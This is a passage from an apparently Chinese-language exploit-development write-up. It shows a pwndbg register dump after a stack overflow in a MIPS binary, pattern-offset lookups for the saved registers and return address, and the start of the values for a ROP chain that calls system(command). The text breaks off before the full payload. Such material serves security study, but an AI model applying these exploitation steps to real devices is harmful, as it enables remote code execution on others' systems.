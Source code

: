 ```sh
*T7   0x400
*T8   0x8
 T9   0x0
*S0   0x67423467 ('g4Bg')
*S1   0x36674235 ('5Bg6')
*S2   0x42376742 ('Bg7B')
*S3   0x67423867 ('g8Bg')
*S4   0x30684239 ('9Bh0')
*S5   0x42316842 ('Bh1B')
*S6   0x68423268 ('h2Bh')
*S7   0x34684233 ('3Bh4')
*S8   0x42356842 ('Bh5B')
*FP   0x76ffe6d0 ◂— 0x38684237 ('7Bh8')
*SP   0x76ffe6d0 ◂— 0x38684237 ('7Bh8')
*PC   0x68423668 ('h6Bh')
pwndbg> x/x $sp+0x14c-0x13c
0x76ffe6e0:     0x42336942
```

使用patternLocOffset.py定位几个点的偏移

```sh
#$s0
$ python patternLocOffset.py -s 0x67423467
[*] Create pattern string contains 1024 characters
ok!
[+] Possible match at offset 973 (adjusted another-endian)
[+] take time: 0.0023 s
#$s5
$ python patternLocOffset.py -s 0x42316842
[*] Create pattern string contains 1024 characters
ok!
[+] Possible match at offset 993 (adjusted another-endian)
[+] take time: 0.0030 s
#$ra
$ python patternLocOffset.py -s 0x68423668
[*] Create pattern string contains 1024 characters
ok!
[+] Possible match at offset 1009 (adjusted another-endian)
[+] take time: 0.0006 s
#$sp+0x14C+var_13C
$ python patternLocOffset.py -s 0x42336942
[*] Create pattern string contains 1024 characters
ok!
[+] Possible match at offset 1029 (adjusted another-endian)
[+] take time: 0.0019 s
```

操控这四个点为下面的值可以形成rop链实现system(command)：

$s0=offset_system-0x1=0x7683c1ff

$s5=offset_gadget1=0x767fe9cc
